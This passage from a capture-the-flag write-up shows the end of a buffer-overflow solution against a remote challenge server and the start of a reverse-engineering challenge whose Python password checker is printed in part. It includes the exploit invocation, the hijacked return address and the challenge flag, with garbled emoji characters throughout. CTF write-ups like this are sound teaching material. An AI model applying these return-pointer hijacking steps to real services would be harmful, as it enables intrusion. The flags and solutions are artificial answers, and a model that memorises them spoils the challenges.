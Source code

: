 ## Exploiting the Remote Service

With everything ready, I ran:
```bash
python3 exploits.py --remote dat-overflow-dough-b9ac089d9249f9ee.challs.brunnerne.xyz:443
```

Output:
```plaintext
[*] Using secret address: 0x4011b6
[*] Switching to interactive mode

brunner{b1n4ry_eXpLoiTatioN_iS_CooL}
```

Success â€" we hijacked the return pointer and jumped straight into the secret_dough_recipe function, printing the flag.
Flag: `brunner{b1n4ry_eXpLoiTatioN_iS_CooL}`

# Baker Brian - reverse engineering

This was the challenge description:
![chall_desc](https://gist.github.com/user-attachments/assets/87dc1b3e-1f95-44a0-9bea-2d40ef449c5b)

Notice that we need to download the file attached and also connect to the challenge. I downloaded the zip file, unzipped it and found the python script below:
```python
cat auth.py 
print("""
              ðŸŽ‚ðŸ°ðŸ°ðŸ°ðŸ°ðŸ°ðŸ°ðŸ°ðŸ°ðŸ°ðŸ°ðŸ°ðŸ°ðŸ°ðŸ°ðŸŽ‚
              ðŸ°                            ðŸ°
              ðŸ°  Baker Brian's Cake Vault  ðŸ°
              ðŸ°                            ðŸ°
              ðŸŽ‚ðŸ°ðŸ°ðŸ°ðŸ°ðŸ°ðŸ°ðŸ°ðŸ°ðŸ°ðŸ°ðŸ°ðŸ°ðŸ°ðŸ°ðŸŽ‚
""")

# Make sure nobody else tries to enter my vault
username = input("Enter Username:\n> ")
if username != "Br14n_th3_b3st_c4k3_b4k3r":
    print("âŒ Go away, only Baker Brian has access!")
    exit()

# Password check if anybody guesses my username
# Naturally complies with all modern standards, nothing weak like "Tr0ub4dor&3"
password = input("\nEnter password:\n> ")

# Check each word separately
words = password.split("-")

# Word 1
if not (
    len(words) > 0 and
    words[0] == "red"
):
    print("âŒ Word 1: Wrong - get out!")
    exit()
else:
    print("âœ… Word 1: Correct!")

# Word 2
if not (
    len(words) > 1 and
    words[1][::-1] == "yromem"
):
```